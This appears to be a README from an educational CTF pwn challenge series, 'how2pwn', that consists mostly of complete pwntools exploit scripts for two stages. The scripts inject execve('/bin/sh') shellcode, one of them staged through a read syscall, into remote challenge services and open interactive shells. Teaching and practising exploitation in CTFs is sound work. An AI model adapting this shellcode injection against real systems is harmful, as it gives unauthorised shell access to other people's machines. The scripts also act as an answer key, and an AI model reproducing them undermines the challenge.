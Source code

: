 
# How2pwn

how2pwn is a series of educational challenges(4 stages). I write this challenge for people have little experience on pwn. If you are new to pwn, don't hesitate to start from this challenge.

I would just left the exploit scripts here because there 
are enough hints in the challenges. And I believe if people
read theses hints and have learned OS&C Language, they are 
able to solve it.

## chal1
```py
from pwn import *
# context.log_level='debug'
# p = process("./chal1")
# p = remote("0.0.0.0", 60001)
p = remote("how2pwn.chal.csaw.io",60001)
v1 = 0x3b
v2 = hex(u64("/bin/sh\0"))
context.arch = 'amd64'
shellcode = f'''
xor rax, rax
xor rdi, rdi
xor rsi, rsi
xor rdx, rdx
mov rax, {v1}
mov rdi, {v2}
push rdi
mov rdi, rsp
syscall 
'''
p.sendlineafter(": \n",asm(shellcode).ljust(0x100,b'\0'))
p.interactive()
```

## chal2
```py
from pwn import *
# p = process("./chal2")
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
debug = 0
if debug:
    p = process("./chal2")
else:
    p = remote("how2pwn.chal.csaw.io",60002)
    # p = remote("0.0.0.0",60002)
    with open("./ticket2",'r') as f:
        ticket = f.read().strip()
    p.send(ticket)
    
context.arch = 'amd64'
shellcode = f'''
mov rdx,0x100
syscall
'''
shellcode = asm(shellcode)
p.sendafter(": \n",shellcode.ljust(0x10,b'\0'))
p.send(b"\x90"*len(shellcode)+asm(shellcraft.sh()))
p.interactive()
```


[1]: https://github.com/osirislab